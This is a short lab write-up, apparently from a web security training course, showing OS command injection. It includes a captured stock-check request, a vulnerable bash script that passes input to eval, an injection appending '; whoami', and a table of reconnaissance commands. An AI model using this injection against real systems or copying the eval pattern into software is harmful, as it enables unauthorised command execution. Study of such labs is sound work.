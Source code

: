 Table of contents
---
[toc]
# Executing Arbitrary Command

## Lab #1: OS command injection, simple case

Sample request
```
POST /product/stock HTTP/1.1
Host: ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
Connection: close
Cookie: session=Lz8JI5iAyVQkMuRmeoIWRzL9jateSHot

productId=1&storeId=1
```

Example case:
productId = $1
storeId = $2

stockreport.sh
```
#!/bin/bash

set -eu

eval cksum <<< "$1 $2" | cut -c 2-3 | rev | sed s/0/1/
```

Modified body parameter:
```
productId=1&storeId=1
```

Command injection:
```
$ stockreport.sh productId storeId; whoami
```

![1430ab703e5ec5cfe85fa140b55cce35.png](./_resources/a628bb431a5242a88bac1e44b833bd70.png)

## Useful Commands

Initial commands to obtain information.

| Purpose of command 	| Linux 	| Windows | 
| ----------------------| ----------| -------|
| Name of current user 	| whoami 	| whoami |
| Operating system 	| uname -a 	| ver |
|Network configuration 	| ifconfig 	| ipconfig /all |
|Network connections | netstat -an 	| netstat -an |
|Running processes 	| ps -ef 	| tasklist | 